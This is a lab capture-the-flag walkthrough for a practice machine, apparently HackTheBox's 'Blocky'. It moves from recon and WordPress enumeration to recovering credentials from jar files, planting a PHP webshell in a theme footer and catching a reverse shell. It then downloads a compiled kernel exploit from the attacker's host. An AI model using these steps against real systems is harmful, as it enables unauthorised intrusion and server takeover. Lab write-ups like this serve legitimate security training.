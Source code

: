 ## Reconnaissance:
***
### Open Ports: 

- 21 - ProFTPD 1.3.5a
- 22 - OpenSSH 7.2p2 Ubuntu 4ubuntu2.2
- 80 - Apache httpd 2.4.18 
***

## Enumeration:

***
**21** :  ProFTPD 1.3.5a - No avaiable exploit

**gobuster** : 10.10.10.37

- /wp-admin/
- /phpmyadmin/
- /plugins/

**http://10.10.10.37/** : wordpress site
wpscan: enumerate wordpress username and password
username: notch

**http://10.10.10.37/plugins/** : 2 jar files (blockycore, briefprevention)
jd-gui: sqluser, sqlpassword - phpmyadmin

**http://10.10.10.37/phpmyadmin/** : wpusers, update the hash password of notch

**http://10.10.10.37/wp-admin/** : notch and password
***

## Initial Foothold

***
WP-Themes-->Editor-->Themes-Footer.php : one liner php webshell to check if vulnerable

Visit Site and Give Command in the URL : Vulnerable :)

PHP Reverse Shell in PHP Webshell / start nc listener (use bash, issues on zsh)

Make the shell interactive : 

``` 
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols> 
```
**id** : www-data
***

## Privileges Escalation

***
**LinEnum** : Look for important & juicy files.

***

## Kernel Exploitation

***
**uname -a** : Kernel module version exploit 
Our system : / exploitdb / gcc exploit.c -o outputfile /
python -m SimpleHTTPServer 8000 --> wget://10.10.14.18/outputfile
Run the downloaded file.

***

# Resources: 
- http://scriptserver.mainframe8.com/wordpress_password_hasher.php
- https://highon.coffee/blog/reverse-shell-cheat-sheet/#perl-reverse-shell
- https://www.exploit-db.com/exploits/44298

----------------------------------------------------------------------------------------------------
